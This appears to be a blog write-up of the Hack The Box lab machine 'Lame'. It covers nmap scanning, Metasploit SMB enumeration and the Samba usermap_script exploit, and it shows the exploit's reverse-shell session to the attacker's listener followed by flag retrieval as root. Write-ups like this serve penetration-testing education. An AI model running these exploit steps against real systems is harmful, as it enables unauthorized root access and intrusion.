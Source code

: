 ```yaml
---
layout: "post"
title: "Hack The Box: Lame Writeup"
date: 2019-11-29
---
```


The Hack the Box machine 'Lame' is rated easy and has the IP 10.10.10.3

The first step I took was to perform an nmap scan on the machine:

{% highlight ruby %}
nmap -A -T4 -p- 10.10.10.3
{% endhighlight %}

The results of the scan:

{% highlight ruby %}
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-29 09:10 EST
Nmap scan report for 10.10.10.3
Host is up (0.020s latency).
Not shown: 65530 filtered ports
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.10
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%), Citrix XenServer 5.5 (Linux 2.6.18) (92%), Linux 2.6.18 (ClarkConnect 4.3 Enterprise Edition) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_ms-sql-info: ERROR: Script execution failed (use -d to debug)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
|_smb-security-mode: ERROR: Script execution failed (use -d to debug)
|_smb2-time: Protocol negotiation failed (SMB2)

TRACEROUTE (using port 139/tcp)
HOP RTT      ADDRESS
1   20.97 ms 10.10.14.1
2   20.87 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 159.39 seconds
{% endhighlight %}

The information that nmap has retreived:

- Port 21 is open, using File Transfer Protocol, vsftpd 2.3.4. Anonymous login is allowed, this can be used to upload files to the server.

- Port 22 is open, using Secure Shell. SSH isnt typically exploitable alone, however credentials can be obtained from other exploits which can be used to login to SSH.

- Port 139/445 are open, using Server Message Block. The version Samba smbd 3.X - 4.X is being used. SMB is a communication protocol that is used for sharing rescources such as files. SMB is known to have many vulnerabilities, this will be my first area of the attack surface to enumerate.

- Port 3632 is open, using a compiling server, distccd. The version v1 is being used, this can be researched to find potential vulnerabilities.

Looking for potentially exploitable vulnerabilities:

- Due to SMB being known as vulnerable, I prioritised searching for exploits relating to 'Samba smbd 3.X - 4.X'. I used metasploit to enumerate the version of SMB being used as the nmap scan didn't pick up a version.

{% highlight ruby %}
search smb_version

options

set RHOSTS 10.10.10.3

msf5 auxiliary(scanner/smb/smb_version) > run

[*] 10.10.10.3:445        - Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] 10.10.10.3:445        - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
{% endhighlight %}
 
 - SMB_version could not identify the host however I got the information 'Samba 3.0.20-Debian'. This can be researched to find poterntial exploitations:

- Rapid 7 have an exploit built into metasploit, Samba "username map script" Command Execution. This exploit allows arbritrary commands through the use of shell metacharacters.

- Seach for the exploit within metasploit, set the options and run the exploit, this returns with a root shell:

{% highlight ruby %}
msf5 > search exploit/multi/samba/usermap_script

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


msf5 > use exploit/multi/samba/usermap_script
msf5 exploit(multi/samba/usermap_script) > options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  10.10.10.3       yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.10.14.5       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

msf5 exploit(multi/samba/usermap_script) > run

[*] Started reverse TCP double handler on 10.10.14.5:4444 
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo XG1OxChrhP7vPRxi;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "XG1OxChrhP7vPRxi\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 2 opened (10.10.14.5:4444 -> 10.10.10.3:50167) at 2019-12-01 07:30:20 -0500
{% endhighlight %}

- The exploit has executed and returned a reverse shell with root privledges. The machine can now be enumerated to find the user.txt and root.txt:

{% highlight ruby %}
whoami
root
pwd
/
ls
bin
boot
cdrom
dev
etc
home
initrd
initrd.img
lib
lost+found
media
mnt
nohup.out
opt
proc
root
sbin
srv
sys
tmp
usr
var
vmlinuz
cd home
ls
ftp
makis
service
user
cd makis
ls
user.txt
cat user.txt
694---------------------
{% endhighlight %}

- I used the locate command to find the root.txt on the machine:

{% highlight ruby %}
locate root.txt
updatedb
locate root.txt
/root/root.txt
cd /root/     
cat root.txt
92c----------------------
{% endhighlight %}

- Both user.txt and root.txt have been found on the machine. Overall I found this machine very easy with the use of metasploit and SMB.



 



